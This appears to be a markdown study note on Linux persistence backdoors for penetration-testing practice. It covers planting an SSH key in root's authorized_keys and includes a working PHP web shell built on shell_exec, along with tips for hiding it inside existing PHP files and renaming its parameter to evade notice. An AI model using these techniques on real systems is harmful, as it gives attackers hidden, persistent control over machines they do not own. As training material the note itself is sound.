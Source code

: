# Linux Backdoors


## Introduction
- Backdoor - used to ensure consistent access to the target machine
    - Access whether it's rebooted, shutdown, etc.

## SSH Backdoors
- Consists of leaving our ssh keys in some user's home directory (preferrably the root user's home directory)
- Generate a set of ssh keys with ssh-keygen `ssh-keygen`
    - This creates one private key and one public key
- Now rename the public key to `authorized_keys`, change it's permissions with `chmod 600 id_rsa`, and go to `/root/.ssh` and leave the public key we generated there
    - If `.ssh` directory doesn't exist, create it with `mkdir .ssh`
- Login to the machine with `ssh -i id_rsa root@ip`
- Note: this backdoor isn't hidden at all, and anyone with the right permissions will be able to remove the public key

## PHP Backdoors
- Web root is usually located at `/var/www/html`
    - Whatever you leave here will be available for everyone to use in their browser
- You can leave a PHP backdoor in this directory
```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```
- This code uses `$_REQUEST`, so you can pass the cmd parameter through either GET or POST requests
- If you left the file in /var/www/html/shell.php | You should be able to access it directly using : http://ip/shell.php
- If you left the shell somewhere else, look in what directory it is and then try accessing it by doing something like that : http://ip/somedirectory/shell.php
- Make backdoor more hidden
    1. Try to add this piece of code in already existing php files in /var/www/html. Adding it more towards the middle of files will definitely make our malicious actions a little more secret.
    2. Change the "cmd" parameter to something else... anything actually... just change it to something that isn't that common. "Cmd" is really common and is already really well known in the hacking community.
